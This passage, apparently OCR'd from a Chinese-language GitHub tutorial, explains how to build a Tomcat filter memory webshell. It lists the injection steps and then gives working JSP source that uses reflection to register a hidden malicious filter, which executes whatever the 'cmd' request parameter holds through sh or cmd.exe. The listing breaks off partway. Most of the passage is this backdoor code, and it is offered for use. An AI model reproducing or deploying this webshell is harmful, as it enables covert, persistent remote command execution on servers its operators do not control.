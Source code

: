 
**filter内存马实现步骤：**
1. 获取StandardContext
2. 创建一个恶意filter
3. 实例化一个FilterDef类，包装filter并存放到StandardContext.filterDefs中
4. 实例化一个FilterMap类，将我们的 Filter 和 urlpattern 相对应，存放到StandardContext.filterMaps中(一般会放在首位)
5. 通过反射获取filterConfigs，实例化一个filterConfig(ApplicationFilterConfig)类，传入StandardContext与filterDef，存放到filterConfigs中

最后的jsp内存马：
```java
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "memshell";
    //获取当前的ServletContext
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    //ApplicationContext为ServletContext 的实现类
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    //获取standardContext
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

	//获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }
            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                //这里写上我们后门的主要代码
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
                    InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
```